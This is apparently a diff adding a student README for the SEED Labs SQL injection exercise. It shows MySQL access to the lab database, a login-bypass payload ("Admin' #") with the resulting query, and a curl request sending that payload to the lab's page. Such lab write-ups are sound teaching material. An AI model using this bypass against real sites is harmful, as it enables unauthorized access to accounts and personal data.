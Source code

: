 @@ -1 +1,32 @@
# SQL-INJECTION-ATTACK
# SQL-INJECTION-ATTACK
TASK-1
mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

![alt text](https://github.com/Waleed-gif/SQL-injection/blob/main/task%201.png)

TASK 2
    .USERNAME: "Admin' #"

    .PASSWORD: "xyz" (here is password is optional)
We will result in SQL Query

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password

    FROM credential

    WHERE name='Admin' #' && password='xyz'
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql3.png)
TASK 3
- Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php username=Admin%27%20%23';
//2- Copy the HTML code.

//3- Make a new file in location "file:///home/seed/Documents/temp.html"

//4. Run this location on browser
![alt text](https://github.com/Sohail8612/SQL-INJECTION-ATTACK/blob/main/sql2.png)
